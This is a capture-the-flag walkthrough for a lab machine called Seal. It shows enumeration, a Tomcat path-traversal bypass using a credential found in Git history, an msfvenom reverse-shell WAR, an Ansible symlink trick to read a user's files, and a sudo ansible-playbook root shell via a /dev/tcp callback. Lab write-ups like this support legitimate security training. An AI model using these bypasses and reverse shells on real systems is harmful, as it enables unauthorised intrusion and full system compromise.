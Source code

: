 # Seal

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.95.190
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 06:12 EDT
Nmap scan report for 10.129.95.190
Host is up (0.0082s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
443/tcp  open  https
8080/tcp open  http-proxy
```

### Vegetables

Port 443 hosts a market page:

<figure><img src="../../../.gitbook/assets/image (171).png" alt=""><figcaption></figcaption></figure>

We can do a `gobuster` scan on the website to find what it is available:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u https://10.129.95.190/ -k -t 100      
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.129.95.190/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/05/03 06:16:19 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 302) [Size: 0] [--> http://10.129.95.190/images/]
/admin                (Status: 302) [Size: 0] [--> http://10.129.95.190/admin/]
/icon                 (Status: 302) [Size: 0] [--> http://10.129.95.190/icon/]
/css                  (Status: 302) [Size: 0] [--> http://10.129.95.190/css/]
/js                   (Status: 302) [Size: 0] [--> http://10.129.95.190/js/]
/manager              (Status: 302) [Size: 0] [--> http://10.129.95.190/manager/]
```

There's a `/manager` and `/admin` directory. The former returns 403, while the latter returns an error from Tomcat:

<figure><img src="../../../.gitbook/assets/image (183) (3).png" alt=""><figcaption></figcaption></figure>

Interesting. Let's take a look at port 8080.

### GitBucket --> Tomcat Creds

Port 8080 is hosting a GitBucket instance:

<figure><img src="../../../.gitbook/assets/image (120) (3).png" alt=""><figcaption></figcaption></figure>

We can create a new account and sign in to see if there are any existing repositories. Straight away, we see tons of push requests to the Market repository.

<figure><img src="../../../.gitbook/assets/image (122) (4) (1).png" alt=""><figcaption></figcaption></figure>

From this, we can find the changes made to the repository. From one of them, we can view the password for the administrator panel by viewing changes made to `tomcat-users.xml`.&#x20;

<figure><img src="../../../.gitbook/assets/image (185) (3).png" alt=""><figcaption></figcaption></figure>

However, we still cannot access the portal.&#x20;

### Directory Traversal --> RCE

While reading Hakctricks for Tomcat vulnerabilities, I found this:

{% embed url="https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/" %}

So by using `/;/`, we might be able to bypass the 403 given earlier. This works for this machine.

<figure><img src="../../../.gitbook/assets/image (102) (2).png" alt=""><figcaption></figcaption></figure>

Using `tomcat:42MrHBf*z8{Z%`, we can access the Tomcat dashboard:

<figure><img src="../../../.gitbook/assets/image (154) (5).png" alt=""><figcaption></figcaption></figure>

Now we just need to generate a reverse shell with a `msfvenom`.&#x20;

```
$ msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.13 LPORT=4444 -f war -o pwn.war      
Payload size: 13319 bytes
Final size of war file: 13319 bytes
Saved as: pwn.war
```

Then, we just need to upload this and run it. However, I did get blocked the first time when trying to upload. Reading more into the exploit, we can apparently append `/.;/` anywhere within the URL to bypass the check. After some trial and error, this URL worked:

{% code overflow="wrap" %}
```
https://10.129.95.190/manager/.;/html/upload?org.apache.catalina.filters.CSRF_NONCE=5F28315713273679760DD841AB5F1B53
```
{% endcode %}

Then, we can run our file and get a shell:

<figure><img src="../../../.gitbook/assets/image (156) (4).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### To Luis

We couldn't access the user flag as `tomcat`. While looking around, I found some interesting files in `/opt`.&#x20;

```
tomcat@seal:/opt$ ls
backups
tomcat@seal:/opt$ cd backups/
tomcat@seal:/opt/backups$ ls
archives  playbook
```

Within the `/playbook` directory, there was a YAML playbook script for Ansible that seems to be running every minute or so:

```
tomcat@seal:/opt/backups/playbook$ ls
run.yml
tomcat@seal:/opt/backups/playbook$ cat run.yml 
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files
```

This takes is used for backing the web directory up, and for some reason the `copy_links` variable has been set to True, indicating that this playbook follows symlinks. As such, the exploit is to basically create a symlink between the user's home directory and one of the files being backed up.&#x20;

Afterwards, we can take the newest backup and open it to find the user's home directory has also been backed up.&#x20;

```
tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard$ ls -la
total 100
drwxr-xr-x 7 root root  4096 May  7  2021 .
drwxr-xr-x 3 root root  4096 May  6  2021 ..
drwxr-xr-x 5 root root  4096 Mar  7  2015 bootstrap
drwxr-xr-x 2 root root  4096 Mar  7  2015 css
drwxr-xr-x 4 root root  4096 Mar  7  2015 images
-rw-r--r-- 1 root root 71744 May  6  2021 index.html
drwxr-xr-x 4 root root  4096 Mar  7  2015 scripts
drwxrwxrwx 2 root root  4096 May  7  2021 uploads
$ ln -s /home/luis/ /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads
```

The `uploads` file is used because we have write access to it. Afterwards, we just need to open the backup made and head to the `uploads` file.&#x20;

```
tomcat@seal:/dev/shm$ tar zxf backup-2023-05-03-10\:42\:32.gz --force-local
tomcat@seal:/dev/shm$ ls
backup-2023-05-03-10:42:32.gz  dashboard  spare.gz
tomcat@seal:/dev/shm/dashboard/uploads$ ls -la
total 0
drwxr-x--- 3 tomcat tomcat  60 May  3 10:46 .
drwxr-x--- 7 tomcat tomcat 160 May  7  2021 ..
drwxr-x--- 9 tomcat tomcat 280 May  7  2021 luis
```

We can grab the user flag and also his SSH private key!

### To Root

Now that we are `luis`, we can check our `sudo` privileges:

```
luis@seal:~$ sudo -l
Matching Defaults entries for luis on seal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User luis may run the following commands on seal:
    (ALL) NOPASSWD: /usr/bin/ansible-playbook *
```

So we can create our own playbook for a `root` reverse shell basically. I made one like this:

```
- hosts: localhost
  tasks:
  - name: shell
    shell: bash -c 'bash -i >& /dev/tcp/10.10.14.13/4444 0>&1'
```

Then, we can run the playbook and get a reverse shell as `root`.

```
$ nc -lvnp 4444
listening on [any] 443 ...
connect to [10.10.14.13] from (UNKNOWN) [10.129.95.190] 49578
root@seal:/dev/shm# id
uid=0(root) gid=0(root) groups=0(root)
```

Rooted!
